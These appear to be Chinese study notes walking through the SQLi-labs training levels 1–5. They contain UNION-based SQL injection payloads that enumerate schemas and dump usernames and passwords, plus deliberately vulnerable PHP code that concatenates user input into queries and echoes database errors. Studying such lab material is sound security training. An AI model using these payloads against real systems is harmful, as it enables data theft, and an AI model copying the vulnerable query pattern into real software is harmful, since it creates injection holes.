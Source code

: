 **如果单引号没有报错：将magic_quotes_gpc改为off**

**order by 之后，尽心union select 的时候，要将id 改为一个不存在的值**

1.  database()查看当前数据库，或者group_concat(schema_name) from information_schema.schemata--+

2.  group_concat(table_name) from information_schema.tables where table_schema='security'--+

3.  group_concat(column_name),3 from information_schema.columns where table_schema='security' and table_name='users'--+

4.  group_concat(id,username,password),3 from security.users--+

    或：

    group_concat(id,'\~',username,'\~',password),3 from security.users where id=2--+

## Less2

>   源码：
>   `$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";`

**输入id=2-1**，发生变化，是数字型注入

## Less3

>   源码：
>   `$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";`

字符型，闭合为')

## Less4

>   源码
>   `$id = '"' . $id . '"';`
>   `$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";`

使用双引号和括号闭合

## Less5

```php
{
    $sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
    $result=mysql_query($sql);
    $row = mysql_fetch_array($result);
	if($row)
	{
        echo '<font size="5" color="#FFFF00">';	
        echo 'You are in...........';
        echo "<br>";
    	echo "</font>";
  	}
	else 
	{	
        echo '<font size="3" color="#FFFF00">';
        print_r(mysql_error());
        echo "</br></font>";	
        echo '<font color= "#0000ff" font size= 3>';	
	}
}
	else { echo "Please input the ID as parameter with numeric value";}
```
